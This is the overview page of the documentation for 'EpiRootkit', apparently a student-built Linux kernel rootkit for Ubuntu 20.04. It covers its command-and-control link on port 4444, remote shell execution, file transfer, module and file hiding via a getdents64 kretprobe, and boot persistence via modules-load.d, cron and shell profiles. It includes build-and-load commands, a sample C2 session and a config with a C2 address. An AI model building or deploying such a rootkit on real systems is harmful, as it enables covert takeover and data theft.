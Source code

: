 ```yaml
---
title: "EpiRootkit Overview"
description: "Linux kernel rootkit for Ubuntu 20.04 / kernel 5.4.0"
icon: "shield"
date: "2025-05-25T16:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 40
---
```


# EpiRootkit

Linux kernel rootkit implementation for Ubuntu 20.04 LTS (kernel 5.4.0).

## What We Built

EpiRootkit is a kernel module that provides:

- **C2 Communication**: TCP connection to command & control server
- **Remote Commands**: Execute shell commands with output capture
- **File Transfer**: Upload/download files between C2 and victim
- **Authentication**: SHA-512 password verification with rate limiting
- **Stealth**: Hide module from `lsmod` and hide files from directory listings
- **Persistence**: Multiple mechanisms to survive reboots

## Architecture

```
C2 Server (Node.js)  ←→  EpiRootkit (Kernel Module)  ←→  Target System
Port 4444                Network + Commands              Linux Kernel 5.4.0
```

## Quick Demo

```bash
# 1. Build and load rootkit
cd rootkit && make && sudo insmod epirootkit.ko

# 2. Start C2 server  
cd attacking_program && pnpm start

# 3. Use the rootkit
c2-server$ auth Client-1 password
c2-server$ exec Client-1 whoami
c2-server$ status Client-1
```

## Core Components

### Network Layer
- **Connection Management**: Persistent TCP connection with auto-reconnect
- **Keepalive System**: 60-second ping/pong to detect disconnections
- **Socket Handling**: Low-level network operations

### Command System
- **Authentication**: `auth` - SHA-512 password verification
- **Execution**: `exec` - Run shell commands with output capture
- **File Operations**: `upload`/`download` - Transfer files
- **Status**: `status` - Get rootkit information
- **Persistence**: `persist_*` - Install/remove boot persistence
- **Stealth**: `hide_module`/`unhide_module` - Toggle visibility

### Stealth Features
- **Module Hiding**: Remove from kernel module list (`lsmod`)
- **File Hiding**: Hide files with specific prefixes from directory listings
- **Syscall Hooking**: Uses kretprobe on `getdents64`

### Persistence Mechanisms
- **modules-load.d**: Systemd automatic module loading
- **Cron Jobs**: Scheduled module loading
- **Shell Profiles**: Load via user login scripts

## Technical Details

- **Target**: Ubuntu 20.04 LTS with kernel 5.4.0
- **Language**: C (kernel module) + Node.js (C2 server)
- **APIs Used**: ftrace, kretprobe, VFS, crypto API
- **Network**: TCP on port 4444 (configurable)
- **Authentication**: SHA-512 with rate limiting (5 attempts/60s)

## Configuration

Key settings in `rootkit/core/config.h`:
```c
#define C2_SERVER_IP "192.168.64.1"
#define C2_SERVER_PORT 4444
#define ENABLE_ENCRYPTION 0        // Currently disabled
#define ENABLE_PERSISTENCE 1       // Auto-install persistence
#define ENABLE_FILE_HIDING 1       // Hide files with prefixes
```

## Documentation Structure

- **[Deployment](./deployment.md)**: How to build and load the rootkit
- **[Connection](./connection-authentication.md)**: Network communication setup
- **[Commands](./features/command-execution.md)**: Remote command execution
- **[File Transfer](./features/file-transfer.md)**: Upload/download files
- **[Stealth](./features/hiding.md)**: Module and file hiding
- **[Persistence](./features/persistence.md)**: Boot survival mechanisms


